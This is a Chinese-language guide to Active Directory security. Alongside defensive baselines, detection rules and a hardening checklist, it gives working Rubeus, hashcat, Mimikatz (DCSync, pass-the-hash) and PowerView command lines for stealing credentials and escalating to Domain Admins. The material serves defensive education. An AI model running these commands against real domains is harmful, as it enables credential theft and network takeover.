

# Active Directory 安全

> 拿下域控 = 拿下整个企业——AD 是企业网络的皇冠宝石。

---

## AD 攻击链



## 常见攻击技术

### 1. Kerberosting（服务账户攻击）

```powershell
# 使用 Rubeus 请求服务票据
Rubeus.exe kerberoast /creduser:DOMAIN\user /credpassword:pass /nowrap

# 离线破解（hashcat）
hashcat -m 13100 kerberos_hash.txt rockyou.txt

# 防御：服务账户使用复杂密码 + 托管服务账户（gMSA）
```

### 2. AS-REP Roasting

```powershell
# 发现不需要预认证的用户
python3 GetNPUsers.py DOMAIN/ -usersfile users.txt -format hashcat -outputfile hashes.txt

# 破解
hashcat -m 18200 asrep.txt rockyou.txt

# 防御：对所有用户启用预认证（默认就是开启的，检查异常关闭的）
```

### 3. DCSync 攻击

```powershell
# 需要域管理员或以下权限：
# Replicating Directory Changes, Replicating Directory Changes All
# Replicating Directory Changes In Filtered Set

# Mimikatz DCSync
lsadump::dcsync /domain:corp.com /user:krbtgt
lsadump::dcsync /domain:corp.com /user:Administrator

# 防御：
# - 监控 Event ID 4662（目录服务访问）
# - 受保护用户组（Protected Users Group）
# - 从域管理员组中移除不必要的用户
```

### 4. Pass-the-Hash（PtH）

```powershell
# 使用哈希直接登录（不需要明文密码）
sekurlsa::pth /user:admin /domain:corp.com /ntlm:HASH /run:powershell.exe

# 防御：
# - KB2871997（禁止本地管理员 PtH，Win 8.1+ 默认）
# - Credential Guard（Windows Defender Credential Guard）
# - 限制本地管理员权限
```

### 5. ACL 滥用

```powershell
# 检查可滥用的 ACL
# PowerView
Find-InterestingDomainAcl -ResolveGUIDs

# 常见可滥用权限：
# ForceChangePassword — 可改目标密码
# AddMembers — 可把自己加到组
# WriteOwner — 可改对象所有者
# GenericAll — 完全控制
# WriteDacl — 可改 ACL

# 利用（把自己加入域管理员组）
Add-DomainGroupMember -Identity "Domain Admins" -Members "hacker"
```

## 防御配置基线

### 组策略安全设置

```yaml
Account Policies:
  Password Policy:
    Minimum length: 14
    Complexity: enabled
    History: 24
    Max age: 90 days
    Min age: 1 day

  Lockout Policy:
    Threshold: 5 attempts
    Duration: 30 minutes
    Reset counter: 30 minutes

Advanced Audit Policy:
  Logon/Logoff:
    Audit Logon: Success and Failure
    Audit Special Logon: Success
  
  Account Logon:
    Audit Kerberos: Success and Failure
  
  Object Access:
    Audit Directory Service Access: Success and Failure
  
  Detailed Tracking:
    Audit Process Creation: Success (include command line)
```

### 监控规则

```kql
// 1. 异常的 DCSync 尝试
Event ID 4662
| where ObjectName contains "DS-Replication-Get-Changes"
| where not InitiatingAccount in ("CORP\\DC01$", "CORP\\BACKUPSRV$")
| project TimeGenerated, Account=InitiatingAccount, ObjectName

// 2. 非工作时间管理员登录
Event ID 4672 (Special Logon)
| where TimeGenerated.hour !in (8..18)  // 非工作时间
| where DayOfWeek !in (1..5)            // 周末
| where Account contains "Admin"
| project TimeGenerated, Account, Workstation

// 3. 非预期的组成员变更
Event ID 4728 (新增全局组成员)
| where MemberName contains "Domain Admins" or "Enterprise Admins"
| project TimeGenerated, AccountChanged, ChangedBy
```

## AD 安全加固检查表

```
[ ] 确定安全基线
  - LAPS（本地管理员密码解决方案）
  - 受保护用户组（全部敏感账户加入）
  - 时间同步（Kerberos 依赖准确时间）
  - SMB 签名开启（防止 PtH 中继）

[ ] 权限最小化
  - 域管理员账户 ≤ 2 个（专人专用）
  - 无长期活动域管理员会话
  - 管理使用"跳板机 + MFA"
  - Tier 0/1/2 管理模型
  - GPO 委派最小权限

[ ] 监控与响应
  - 异常 Kerberos 请求告警
  - 服务账户密码变更周期 ≤ 30 天
  - 域控日志转发至 SIEM
  - 黄金票据检测（KRBTGT 哈希变更监控）
```

## 攻击模拟

```powershell
# 使用 Purple Knight 评估 AD 安全状态
# 免费工具，评估 100+ AD 安全指标
PurpleKnight.exe --domain corp.com --output report.html

# PingCastle（AD 风险评估）
PingCastle.exe --healthcheck --server dc01.corp.com
```
